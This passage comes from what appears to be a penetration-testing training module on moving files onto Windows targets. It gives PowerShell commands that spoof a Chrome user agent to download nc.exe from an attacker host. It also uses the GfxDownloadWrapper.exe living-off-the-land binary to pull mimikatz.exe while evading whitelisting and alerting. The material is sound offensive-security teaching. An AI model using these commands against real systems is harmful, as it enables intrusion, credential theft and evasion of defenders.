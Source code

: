 ## Changing User Agent

If diligent administrators or defenders have blacklisted any of these User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, setting this User Agent may make the request seem legitimate.

#### Listing out User Agents

  Listing out User Agents

```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

#### Request with Chrome User Agent

  Request with Chrome User Agent

```powershell
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

  Request with Chrome User Agent

```shell
Pwn1Sec@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

---

## LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

#### Transferring File with GfxDownloadWrapper.exe

  Transferring File with GfxDownloadWrapper.exe

```powershell
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Such a binary might be permitted to run by application whitelisting and be excluded from alerting. Other, more commonly available binaries are also available, and it is worth checking the [LOLBAS](https://lolbas-project.github.io/) project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the [GTFOBins](https://gtfobins.github.io/) project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.

---

## Closing Thoughts

As we've seen in this module, there are many ways to transfer files to and from our attack host between Windows and Linux systems. It's worth practicing as many of these as possible throughout the modules in the Penetration Tester path. Got a web shell on a target? Try downloading a file to the target for additional enumeration using Certutil. Need to download a file off the target? Try an Impacket SMB server or a Python web server with upload capabilities. Refer back to this module periodically and strive to use all the methods taught in some fashion. Also, take some time whenever you're working on a target or lab to search for a LOLBin or GTFOBin that you've never worked with before to accomplish your file transfer goals.

